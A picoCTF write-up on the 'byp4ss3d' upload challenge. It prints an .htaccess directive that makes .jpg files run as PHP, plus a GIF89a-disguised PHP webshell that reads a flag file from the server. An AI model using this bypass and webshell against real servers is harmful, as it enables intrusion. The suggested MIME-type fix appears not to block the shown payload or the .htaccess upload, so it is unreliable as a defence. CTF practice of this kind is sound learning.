






# byp4ss3d  --form pico

picoctf have new style!!!!!
## Problem Summary
In this problem we need to using the **.htaccess** file and the a fake picture to payload.
<br>


This is an example of normal payload. But we will have similar step like this.
<br>
## Key Observation
payload script:

```php
GIF89a;
<?php echo system("cat /var/www/flag.txt");?>// to get the flag
```

```php
AddType application/x-httpd-php .jpg // to Treat .jpg as php script
```
## Exploitation Strategy
1.first we look at the hint:

so now we know we need two file to get the flag. and they are **.htaccess** file and **php** payload file.
<br>
2.

I put in a picture and it request some random letter. which means the server using the picture. and we can input the evil code to get the flag.
<br>
3.But

The server output the data as .jpg which means server thought this is image. but our file doesn't have image data. we need the **.htaccess** to help us to access the server and do little bit change.
<br>
4.
When I search how to reading the 'image' php script. I found this. that was so irony, This code was use for hiding the important php code, but it be came the attacker's **weapon**.
```php
AddType application/x-httpd-php .jpg // to Treat .jpg as php script
```
we add this script in to the file name call **.htaccess**. after this we finish our first step.
<br>
5.we try a simple test:

It's work!!! NOW we using webshell to get the flag.
```php
GIF89a; // Bypass the fraud detection system by making it think it's a regular image

<?php echo system("cat /var/www/flag.txt");?>// to get the flag
```

let's gooooo!
## Root Cause
Because the server didn't disable to upload the **.htaccess** file. If we want fix it we need to do like this:
```php
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$mime = finfo_file($finfo, $_FILES['file']['tmp_name']);

$allowedMimes = [
    'image/jpeg',
    'image/png',
    'image/gif'
];

if (!in_array($mime, $allowedMimes)) {
    die("Invalid file type");
}
```
this also can be protect the file like: **webshell.php.jpg**
## Reflection
What I learned php and **htaccess** file.


## Other want to say 
So in this days I was really busy. Due to the final exam, and some competition about programming so I may not do writing up really often. but I won't give up! :D